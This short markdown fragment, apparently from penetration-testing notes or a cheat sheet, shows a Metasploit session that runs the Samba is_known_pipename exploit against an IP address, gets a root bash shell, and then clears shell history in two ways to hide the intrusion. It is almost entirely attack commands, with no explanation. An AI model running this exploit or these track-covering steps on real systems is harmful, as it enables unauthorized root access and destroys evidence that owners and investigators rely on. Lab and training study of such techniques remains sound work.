 #### Linux

```bash
msf6> set rhosts 192.143.174.3
msf6> use exploit/linux/samba/is_known_pipename
msf6> run

/bin/bash -i

root@victim> cd /tmp
root@victim> history -c                     # method 1
root@victim> cat /dev/null > .bash_history  # method 2
```
